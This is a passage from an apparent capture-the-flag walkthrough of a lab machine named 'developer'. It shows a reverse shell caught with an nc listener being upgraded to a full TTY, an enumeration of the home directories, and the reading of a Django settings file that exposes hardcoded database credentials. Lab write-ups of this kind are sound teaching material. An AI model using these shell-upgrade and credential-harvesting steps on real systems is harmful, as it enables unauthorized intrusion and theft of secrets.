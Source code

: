 
I’ll upgrade the shell with the standard trick:

    
    
    www-data@developer:/var/sentry$ python -c 'import pty;pty.spawn("bash")'
    python -c 'import pty;pty.spawn("bash")'
    www-data@developer:/var/sentry$ ^Z
    [1]+  Stopped                 nc -lvnp 443
    oxdf@parrot$ stty raw -echo ; fg
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@developer:/var/sentry$ 
    

## Shell as karl

### Enumeration

#### Homedirs

There are two user home directories:

    
    
    www-data@developer:/home$ ls
    karl  mark
    

As www-data, I can’t access either:

    
    
    www-data@developer:/home$ cd karl/
    bash: cd: karl/: Permission denied
    www-data@developer:/home$ cd mark/
    bash: cd: mark/: Permission denied
    

#### PostGres

In `/var/www/developer_ctf/` is the Django project:

    
    
    www-data@developer:~/developer_ctf$ ls
    challenge_downloads  challenges  developer_ctf  developerenv  manage.py  profiles  static
    

`developer_ctf` holds the settings for the project. `profiles` and
`challenges` are two custom apps. `challenge_downloads` and `static` are
static files, and `developerenv` is a virtual environment to make easier the
integration with Apache / `mod_uwsgi`.

In `developer_ctf/settings.py`, there’s the DB config:

    
    
    DATABASES = {
        'default': {       
            'ENGINE': 'django.db.backends.postgresql',
            'NAME': 'platform',
            'USER': 'ctf_admin',
            'PASSWORD': 'CTFOG2021',               
            'HOST': 'localhost',
            'PORT': '',
        }                  
    }      
    